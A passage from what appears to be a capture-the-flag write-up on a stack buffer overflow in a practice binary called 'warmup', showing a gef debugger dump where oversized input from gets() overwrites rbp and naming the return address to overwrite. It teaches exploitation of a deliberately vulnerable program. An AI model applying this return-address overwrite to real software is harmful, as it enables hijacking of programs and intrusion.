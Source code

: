 - Program still doesn't crash.
- But we have to overwrite the return address with `\x0d\x06\x40\x00`.

- Supply something larget than 64 bytes and you can notice that you start to overwrite `rbp`:

```sh
gef➤  c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCD

Breakpoint 3, 0x00000000004006a3 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffdd40  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rbx   : 0x0
$rcx   : 0x00007ffff7e1aaa0  →  0x00000000fbad2288
$rdx   : 0x1
$rsp   : 0x00007fffffffdd00  →  "0x40060d\n"
$rbp   : 0x00007fffffffdd80  →  0x0000000044434241 ("ABCD"?)
$rsi   : 0x1
$rdi   : 0x00007ffff7e1ca80  →  0x0000000000000000
$rip   : 0x00000000004006a3  →  <main+0086> leave
$r8    : 0x0
$r9    : 0x0
$r10   : 0x77
$r11   : 0x246
$r12   : 0x00007fffffffde98  →  0x00007fffffffe234  →  "/home/noobuntu/nightmare/bof/ret_func/warmup/warmu[...]"
$r13   : 0x000000000040061d  →  <main+0000> push rbp
$r14   : 0x0
$r15   : 0x00007ffff7ffd040  →  0x00007ffff7ffe2e0  →  0x0000000000000000
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdd00│+0x0000: "0x40060d\n"         ← $rsp
0x00007fffffffdd08│+0x0008: 0x000000000000000a ("\n"?)
0x00007fffffffdd10│+0x0010: 0x0000000000000000
0x00007fffffffdd18│+0x0018: 0x0000000000000000
0x00007fffffffdd20│+0x0020: 0x0000000000000000
0x00007fffffffdd28│+0x0028: 0x0000000000000000
0x00007fffffffdd30│+0x0030: 0x0000000000000000
0x00007fffffffdd38│+0x0038: 0x0000000000000000
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400696 <main+0079>      mov    rdi, rax
     0x400699 <main+007c>      mov    eax, 0x0
     0x40069e <main+0081>      call   0x400500 <gets@plt>
 →   0x4006a3 <main+0086>      leave
     0x4006a4 <main+0087>      ret
     0x4006a5                  cs     nop WORD PTR [rax+rax*1+0x0]
     0x4006af                  nop
     0x4006b0 <__libc_csu_init+0000> push   r15
     0x4006b2 <__libc_csu_init+0002> mov    r15d, edi
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "warmup", stopped 0x4006a3 in main (), reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4006a3 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```